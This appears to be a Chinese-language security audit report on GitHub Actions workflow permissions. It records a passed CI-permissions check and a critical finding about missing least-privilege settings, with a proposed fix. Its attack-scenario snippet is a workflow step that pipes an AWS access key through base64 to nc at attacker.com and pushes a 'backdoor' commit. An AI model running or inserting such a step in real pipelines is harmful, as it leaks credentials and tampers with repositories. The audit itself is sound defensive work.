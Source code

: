 
### ✅ PASS: CE-ISSUE-010 - CI权限配置
**修复前**: ⚠️ 最小权限原则未完全应用
**修复后**: ✅ 已在P3阶段修复

**验证方法**: 审查`.github/workflows/*.yml`权限配置
**测试结果**: ✅ PASS
**审查结果**: ✅ APPROVED
**证据文件**: `CHANGELOG.md` Line 60

---

## 🔒 安全审计问题详情

### 🔴 STOP-SHIP: S-1 - GitHub Actions权限过大
**CVSS**: 8.6 (CRITICAL)
**状态**: 🔄 部分修复 (50%)

**问题描述**:
所有workflow缺少`permissions`配置，默认拥有完全权限（GITHUB_TOKEN: write-all）

**安全影响**:
- 恶意PR可以修改代码库（contents: write）
- 可以读取和泄露GitHub Secrets（secrets: read）
- 可以发布恶意包到registry（packages: write）
- 可以修改GitHub Actions配置（actions: write）

**攻击场景**:
```yaml
# 恶意workflow注入
- name: Steal Secrets
  run: |
    echo ${{ secrets.AWS_ACCESS_KEY }} | base64 | nc attacker.com 1234
    git config user.email "attacker@evil.com"
    echo "malicious" > README.md
    git commit -am "backdoor"
    git push
```

**修复方案**:
```yaml
# 每个workflow添加最小权限
permissions:
  contents: read           # 只读代码
  pull-requests: write     # PR评论（如需要）
  security-events: write   # 安全扫描（如需要）
```

**当前进度**:
- ✅ 已创建`security-scan.yml` (包含正确权限配置)
- 🔄 需更新现有3个workflows:
  - `.github/workflows/ce-gates.yml`
  - `.github/workflows/ci-workflow-tests.yml`
  - `.github/workflows/ci-enhanced-5.3.yml` (如存在)
